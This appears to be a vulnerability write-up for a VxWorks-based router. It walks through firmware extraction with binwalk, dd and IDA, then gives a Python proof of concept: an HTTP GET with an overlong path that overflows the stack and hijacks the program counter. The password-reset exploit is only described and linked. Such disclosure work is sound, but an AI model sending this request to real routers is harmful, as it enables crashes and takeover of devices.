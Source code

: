 ### Analysis

Use binwalk to analyze the firmware.
```
$ binwalk ./MX25L8005_20230813_224125.BIN
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
13664         0x3560          U-Boot version string, "U-Boot 1.1.4 (Aug 28 2014 - 18:04:52)"
13712         0x3590          CRC32 polynomial table, big endian
14996         [0x3A94]          uImage header, header size: 64 bytes, header CRC: 0xEBE5C5A2, created: invalid timestamp, image size: [37958] bytes, Data Address: 0x80010000, Entry Point: [0x80010000], data CRC: 0x9BE8162C, OS: Linux, CPU: MIPS, image type: Firmware Image, compression type: lzma, image name: "u-boot image"
15060         0x3AD4          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 100568 bytes
61440         0xF000          IMG0 (VxWorks) header, size: 794144
61568         0xF080          Wind River management filesystem, compressed, 165 files
69532         0x10F9C         LZMA compressed data, properties: 0x5A, dictionary size: 8388608 bytes, uncompressed size: 10345 bytes
...
```
We can see that there is a uimage with a header at 0x3A94, a uImage (uboot image) of size 37958, and a loaded address of 0x80010000, and processor architecture mips (big endian). So we dump the uboot and decompress it.
```
$ dd if=MX25L8005_20230813_224125.BIN of=uboot.bin.lzma bs=1 skip=$((0x3A94 + 64)) count=37958
$ lzma -d ./uboot.bin.lzma
```

Using IDA to analyze uboot.bin
```
a. 
  IDA -> mips big endian
b.
  load address = 0x80010000
  rom address = 0x80010000
c.
  IDA -> Options -> General -> Analysis -> Processor specific analysis options -> $gp value = 0x800282D0
d.
  import idc
  for ea in range(0x800282D0, 0x800288D7, 4):
    idc.del_items(ea)
    idc.create_dword(ea)
``` 
![](./img/1.png)
Reverse uboot.bin to analyze the location of the vxwork firmware.
![](./img/2.png)
Then dump the vxwork firmware.
```
$ dd if=MX25L8005_20230813_224125.BIN of=vxworks.bin.lzma bs=1 skip=$((0x4a680)) count=$((0x8671d))
$ lzma -d ./vxworks.bin.lzma
```
Reverse and analyze vxworks.bin then dig for vulnerabilities.


### Bug

The reason for the vulnerability is that when going to the file system to fetch a file, an overflow can occur when the file path is too long. The overflow overwrites the PC value.

Proof of concept
```
import socket
import struct

from socket import htonl, htons

PORT = 80
IP   = "192.168.1.1"
p32  = lambda n   : struct.pack('>I', n)

io = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
io.connect((IP, PORT))
request = b'' \
+ b'GET /login/' + b'A'*0x109 + p32(0x12345678) + b'/arc.gif HTTP/1.1\r\n' \
+ b'Host: 192.168.1.1\r\n' \
+ b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36\r\n' \
+ b'\r\n'
io.send(request)
io.recv(4096)
io.close()
```

Running this Poc, the router Crash and is hijacked to 0x12345678. this suggests that the excessively long file path triggered a stack overflow.

![](./img/3.png)


### Attack

Construct a exploitation script that changes the value of the password in memory to admin (the default), triggering the router to reset the password.


https://github.com/Giles-one/FW300RouterCrack/assets/71769243/5f8e8165-ef9a-4f62-b566-514864aa2543

[Attack vedio](./attack.mp4)
